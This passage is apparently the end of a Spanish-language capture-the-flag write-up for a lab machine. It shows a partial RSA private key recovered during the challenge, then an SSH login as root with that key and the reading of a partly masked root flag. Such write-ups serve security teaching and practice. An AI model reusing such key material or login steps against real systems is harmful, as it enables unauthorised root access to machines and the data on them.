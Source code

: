 ```bash
cz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzTVkCew1DZuYnYOGQxHYW6
WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivzUXjcCAviPpmSXB19UG8J
lTpgORyhAoGBAPaR+FID78BKtzThkhVqAKB7VCryJaw7Ebx6gIxbwOGFu8vpgoB8
S+PfF5qFd7GVXBQ5wNc7tOLRBJXaxTDsTvVy+X8TEbOKfqrKndHjIBpXs+Iy0tOA
GSqzgADetwlmklvTUBkHxMEr3VAhkY6zCLf+5ishnWtKwY3UVsr+Z4f1AoGBAK28
/Glmp7Kj7RPumHvDatxtkdT2Iaecl6cYhPPS/OzSFdPcoEOwHnPgtuEzspIsMj2j
gZZjHvjcmsbLP4HO6PU5xzTxSeYkcol2oE+BNlhBGsR4b9Tw3UqxPLQfVfKMdZMQ
a8QL2CGYHHh0Ra8D6xfNtz3jViwtgTcBCHdBu+lZAoGAcj4NvQpf4kt7+T9ubQeR
RMn/pGpPdC5mOFrWBrJYeuV4rrEBq0Br9SefixO98oTOhfyAUfkzBUhtBHW5mcJT
jzv3R55xPCu2JrH8T4wZirsJ+IstzZrzjipe64hFbFCfDXaqDP7hddM6Fm+HPoPL
TV0IDgHkKxsW9PzmPeWD2KUCgYAt2VTHP/b7drUm8G0/JAf8WdIFYFrrT7DZwOe9
LK3glWR7P5rvofe3XtMERU9XseAkUhTtqgTPafBSi+qbiA4EQRYoC5ET8gRj8HFH
6fJ8gdndhWcFy/aqMnGxmx9kXdrdT5UQ7ItB+lFxHEYTdLZC1uAHrgncqLmT2Wrx
heBgKQKBgFViaJLLoCTqL7QNuwWpnezUT7yGuHbDGkHl3JFYdff0xfKGTA7iaIhs
qun2gwBfWeznoZaNULe6Khq/HFS2zk/Gi6qm3GsfZ0ihOu5+yOc636Bspy82JHd3
BE5xsjTZIzI66HH5sX5L7ie7JhBTIO2csFuwgVihqM4M+u7Ss/SL
-----END RSA PRIVATE KEY-----
```

Trataremos de acceder al SSH a través de esta clave privada del usuario `root` y comprobamos que hemos podido conectarnos al equipo. También logramos visualizar la flag de **root.txt**.

```bash
❯ ssh -i id_rsa root@10.10.11.227
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# cat root.txt
b2970ee7*************************
```
